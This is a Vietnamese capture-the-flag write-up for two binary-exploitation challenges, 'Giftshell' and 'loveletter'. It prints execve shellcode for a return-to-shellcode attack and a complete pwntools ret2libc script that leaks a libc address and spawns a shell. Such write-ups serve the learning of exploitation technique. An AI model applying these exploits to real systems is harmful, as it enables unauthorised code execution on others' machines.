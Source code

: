  
 
 
### 1. Giftshell
**Tóm tắt đề :**

1 file giftshell để chạy trên linux 

**Ý tưởng:**
- Đầu tiên mình sài IDA để decompile
![](https://i.imgur.com/TBsp4PM.png)
- Nhận thấy có lỗi buffer overflow do biến `buf` khai báo có 112 byte mà nhập tới 128 byte, cùng với việc đề leak địa chỉ biến `buf` ra ở `printf` thì khá chắc chắn là lỗi return to shellcode
- Vậy ta sẽ sử dụng địa chỉ biến `buf` bị leak để ret về đó, từ địa chỉ biến buf trở về sau chính là shell code của ta.
- Do mình lười nên lên mạng chép mã assembly để lấy shell, ở đây mình lên dreamhack để lấy.



    mov rax, 0x68732f6e69622f
    push rax
    mov rdi, rsp  ;
    xor rsi, rsi  ;
    xor rdx, rdx  ; 
    mov rax, 0x3b ;
     syscall ;
    
- Phần padding còn lại mình fill bằng byte `\x90` tức là `nop` trong assembly x86.
- Kế tiếp ta vào gdb để tìm offset cho ret. Ở đây ta được 120. 
![](https://i.imgur.com/9KcRPR0.png)
- Tiếp theo ta tìm số bytes của shellcode. Chạy script dưới ta được số byte là 29.
![](https://i.imgur.com/NPr8ND5.png)
- Do đó thứ tự payload sẽ là 29 byte shellcode, 91 byte nop và cuối cùng là 8 byte địa chỉ để ret vào. Vậy giờ ta sẽ viết script để viết ý tưởng trên. 
![](https://i.imgur.com/zFMHWrS.png)
- Chạy script trên ta đã lấy được shell.

### 2. loveletter
**Tóm tắt đề :**
- 1 file source 
- 1 file dockerfile
- 1 file docker-compose 

**Ý tưởng :**
- Đầu tiên mình decompile bằng IDA.
![](https://i.imgur.com/zflRfBI.png)
- Ta thấy control flow của chương trình như sau : chạy hàm loveletter -> yêu cầu nhập -> chạy hàm doubt -> nếu chọn Y thì sẽ set buffer cho biến `v1`, còn không thì chưa rõ do không khai báo.
- Tới đây ta cần phân tích rõ thứ tự các biến trong stack để coi có ghi đè được biến `v1` không vì khi đó ta sẽ tuỳ ý chọn số byte để nhập.
- Ta nhận thấy biến `v1` của hàm `loveletter` tức là mảng `buff[MAX_BUFFER + 69]` trong source và biến v1 của hàm `doubt` gần nhau. Ta có phân tích như sau:
![](https://i.imgur.com/xxLXtTB.png)
- Khi ta nhập full byte của biến `buf` trong hàm `loveletter` rồi chuyển qua hàm `doubt`, do biến `v1` không khai báo nên sẽ nhận giá trị ở vị trí `rsp+0xC` (stack không clear sau khi thực hiện xong hàm). Ta sẽ lợi dụng điều này để lấy shell.
- Do EX đã tắt và đây là file ELF 64 bit nên ta sẽ làm theo dạng return2libc 64bit
![](https://i.imgur.com/DUobQxU.png)
- Do đây là dạng cơ bản nên ta chỉ cần tìm gadget của từng phần viết script.
![](https://i.imgur.com/4ZQeiY2.png)
- Kết hợp tất cả thông tin rồi ta sẽ viết được script này

'''
    from pwn import *
    
    context.binary = exe = ELF('./main', checksec=False)
    libc = ELF('libc.so.6', checksec=False)
    p = process(exe.path) 
    p.sendafter(b'> ', b'A'*4000) 
    p.sendafter(b'> ', b'A'*2969)
    
    p.recvuntil(b'?\n')
    p.sendafter(b'> ', b'Y')
    payload = b'A'*264
    pop_rdi = 0x00000000004014b3
    payload += p64(pop_rdi) + p64(exe.got['puts'])
    payload += p64(exe.plt['puts'])
    payload += p64(exe.sym['main'])
    
    p.recvuntil(b'w.\n')
    p.sendafter(b'> ', payload)
    p.recvuntil(b'!\n')
    libc_leak = u64(p.recv(6) + b'\x00\x00')
    libc.address = libc_leak - libc.sym['puts']
    
    p.sendafter(b'> ', b'A'*4000) 
    p.sendafter(b'> ', b'A'*2969)
    p.recvuntil(b'letter?\n')
    p.sendafter(b'> ', b'Y')
    
    ret = 0x000000000040101a
    payload = b'A'*264 + p64(ret)
    payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
    payload += p64(libc.sym['system'])
    p.recvuntil(b'now.\n')
    p.sendafter(b'> ', payload)
    p.interactive()
    
'''
- Chạy thử và ta sẽ có được shell.
